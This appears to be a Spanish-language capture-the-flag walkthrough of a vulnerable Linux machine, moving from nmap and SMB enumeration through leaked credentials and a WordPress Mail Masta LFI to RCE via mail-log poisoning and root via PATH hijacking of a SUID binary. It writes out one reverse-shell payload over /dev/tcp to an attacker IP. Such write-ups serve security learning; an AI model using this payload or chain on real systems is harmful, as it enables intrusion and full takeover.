

# Fase de reconocimiento
---
Empezamos realizando un escaneo con `arp-scan` a la red para averiguar la IP de la máquina:
 

Ahora realizamos un `ping` a la máquina para ver si nos responde.
Vemos que el *TTL* es *64* lo que nos indica que es una máquina **Linux**

Empezamos ahora el reconocimiento de los puertos utilizando `nmap`, primero
escaneamos todo el rango de puertos.

Ahora sobre estos puertos, hacemos un escaneo más profundo para detectar versión y servicio.

# Fase de explotación
---
## SMB información expuesta
El puerto **445** y el **139** estás abiertos y son de *SMB*. Utilizando la herramienta `smbmap` vamos a ver si encontramos algo.
Vemos que tenemos permisos de lectura en **anonymous** y además vemos un posible usuario `helios`.

Vamos a ver que hay en el recurso compartido de **anonymous**.
Tenemos un archivo llamado `attention.txt` que vamos a descargarnos para ver que contiene.

En este archivo de texto encontramos una fuga de información donde podemos posibles credenciales de usurios.

Probando con las credenciales, conseguimos ver el contenido del recurso compartido de `helios`

Nos descargamos los archivos y vemos esto en el archivo `todo.txt`, donde encontramos una nueva ruta de la web.

## Fuzzing y enumeración Worpress
---
Hacemos fuzzing sobre esta nueva ruta para descubrir archivos y directorios.

Vemos que nos encontramos frente a un **Wordpress** asi que podemos utilizar la herramienta `wpscan` para enumerarlo.
La herramienta nos reporta que hay un **LFI** en el plugin **Mail masta**

Hacemos una busqueda en searchsploit para investigar esta vulnerabilidad

## LFI to RCE via SMTP log
---
Confirmamos que se produce un **LFI** y ahora vamos a apuntar al archivo `/var/mail/helios` para que interprete el código php que
vamos a enviar al log de la siguiente manera:

Ahora apuntamos a `/var/mail/helios` y le metemos `&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.41/443 0>%261"` para mandarnos una **Rerverse Shell**

# Escalada de priveligos
---
Examinando el sistema, vemos que tenemos permiso *SUID* sobre este binario peculiar.

Examinandolo con `strings`, vemos que se está ejecutando el comando `curl` de forma relativa. Esto es un problema, porque da lugar a un **Path Hijacking**
de la siguiente manera.

1 - Modificamos el PATH de la siguiente manera

2 - Creamos un archivo llamado `curl` en `/tmp/` y le damos permisos de ejecución  

3 - Ejecutamos el binario y ya seríamos `root` 
 

